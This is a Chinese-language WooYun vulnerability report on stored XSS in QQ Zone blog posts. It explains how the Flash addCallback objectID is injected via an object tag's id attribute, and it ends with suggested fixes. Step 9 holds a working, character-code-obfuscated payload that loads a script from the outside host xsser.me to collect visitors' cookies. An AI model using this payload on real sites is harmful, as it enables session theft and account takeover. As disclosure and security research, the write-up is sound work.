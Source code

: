 # 21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]

> 来源：[21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]](http://www.wooyun.org/bugs/wooyun-2010-016803)

## 简要描述

有些时候，我们拿现成的 XSS 代码都不行，都被过滤了，那么需要我们对过滤的规则进行一定的判断与猜测。然后针对性的使用一些技 巧来适应或者绕过规则。

在本例中，我们以 QQ 空间/QQ 校友的日志功能为例，通过猜测简单的过滤规则，然后使用含有 addCallback 的 flash，来实现了存储型 XSS 的构造。

详细说明：

1\. 前提：本例需在 IE9，IE10 下进行。

2\. 我们乌云上报告的一些已有案例，进行了再次测试。

[（QQ 空间+朋友网）日志功能存储型 XSS](http://www.wooyun.org/bugs/wooyun-2012-013721)

上例中，提到了 QQ 空间日志并未对 object 标签进行有效的过滤。

3\. 我们根据此例中的代码对过滤规则进行测试：

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

以上的代码，是可以正常提交，并且未过滤的。

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://mysite.com/vphoto.swf"><PARAM NAME="Src" VALUE="http://mysite.com/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

而当 swf 的域名不是 qzs.qq.com 时候，代码将会被过滤为以下内容。

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

即地址被去掉了。

4\. 那么我们已知了这个过滤规则， 就有 2 种绕过的方式。

4.1 找到一个 qzs.qq.com 域名下存在缺陷的 FLASH，然后加以利用。

此方法，已经在 @gainover 的 [WooYun: PKAV 腾讯专场 - 6\. （QQ 空间+朋友网）日志功能存储型 XSS](http://www.wooyun.org/bugs/wooyun-2012-013721) 有所介绍了。

4.2 利用 Flash 的 addcallback 缺陷来构造存储型 XSS。

5\. 首先说下 flash addcallback 方法的基本原理。

根据 flash sdk 里的源代码，我们可以得到 flash addcallback 的源代码中有以下代码。

```
if ((((activeX == true)) && (!((objectID == null))))){
    _evalJS(((((" flash addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));
}; 
```

![image](img/Image_114.jpg)

其中 objectID 为调用 FLASH 的 HTML 标签的 ID。functionName 则为被 JS 所调用的函数名称。

6\. 当我们有以下代码时：

```
<object id="aaaa" width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

且 [`qzs.qq.com/qzone/client/photo/swf/vphoto.swf`](http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf) 中存在一句

```
ExternalInterface.addCallback("myfunc",funcInFlash); 
```

则有

```
objectID="aaaa";
functionName="myfunc"; 
```

代入上面那句 _evalJS 中，则有

```
flash addCallback(document.getElementById("aaaa"), "myfunc"); 
```

7\. 那么我们可以想象一下，如果 aaaa 替换为 `aaaa"),alert(1),("` 则上面代码变为

```
flash addCallback(document.getElementById("aaaa"),alert(1),(""), "myfunc"); 
```

解析：

![image](img/Image_115.jpg)

8\. 且 FLASH 中，确实未对 objectID 做任何过滤。 基于以上内容，我们可以构建利用代码。

```
<object id='aaaa"),alert(1),("' width="100%" height="100%" align="middle"
classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

我们自己用上面这段代码先在自己网站上测试下：

![image](img/Image_116.jpg)

看，果然 id 里的代码被执行了！

9\. 利用以上原理，接着我们在 QQ 空间里来做测试，至于 FLASH 么，就是现成的！ 虽然这个 FLASH 里没有缺陷，但是存在 addCallback 的调用，我们就可以直接用它。

```
<object width="100%" height="100%" align="middle" id="xsstest1&quot),(function(){if(!window. x){window. x=1;window.s=document.createElement(String.fromCharCode(115,9 9,114,105,112,116));window.s.src=String.fromCharCode(104,116,116,112,58,47,47,120,115,115,101,114,46,109,101,47,66,11
3,112,57,82,121);document.body.appendChild(window.s);}})(),(&quot;"
classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie"
VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

发布日志，使用以上代码

![image](img/Image_117.jpg)

10\. 当用户访问含有 XSS 代码的日志后，我们可以在 xsser.me 查看所记录的 cookies 内容。

![image](img/Image_118.jpg)

修复方案：

1\. 过滤 object 标签

2\. 设置 allowscriptaccess 为 never ，即使设置为 sameDomain, 也可能找到同域下含有 addCallback 调用的 FLASH。